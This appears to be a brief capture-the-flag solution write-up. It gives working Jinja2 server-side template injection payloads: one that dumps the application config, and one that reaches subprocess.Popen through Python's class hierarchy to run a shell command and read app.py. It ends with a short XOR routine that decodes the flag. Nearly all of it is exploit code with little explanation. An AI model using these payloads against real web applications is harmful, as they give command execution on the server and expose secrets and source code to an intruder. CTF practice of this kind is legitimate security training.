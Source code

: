 # Solution

Step 1, get the config

``` python
{{config}}
```

Step 2, get the app source code

``` python
{{ ''.__class__.__mro__[1].__subclasses__()[286]('cat app.py',shell=True,stdout=-1).communicate()[0].strip()}}
```

Step 3, run it yourself!

``` python
def magic(flag, key):
    return ''.join(chr(x ^ ord(flag[x]) ^ ord(key[::-1][x]) ^ ord(key[x])) for x in range(len(flag)))
 
flag="HKQ\x1f\x7f~e|\x06{r9<\x03/3z\x12#Rr )G#*\x14,#dp=Z@AP\x0c*"
magic(flag, '112f3a99b283a4e1788dedd8e0e5d35375c33747')
```
 

